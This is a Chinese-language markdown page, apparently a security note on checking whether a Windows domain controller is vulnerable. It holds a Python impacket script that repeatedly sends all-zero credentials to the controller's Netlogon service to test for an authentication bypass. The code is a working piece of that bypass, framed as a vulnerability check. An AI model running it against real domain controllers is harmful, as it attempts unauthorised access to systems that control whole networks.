 ## 判断域控是否存在该漏洞  
### 方式1：通过Python脚本判断（可以打包成exe执行）  
- 代码  
```
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )


    # It worked!
    assert server_auth['ErrorCode'] == 0
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')
```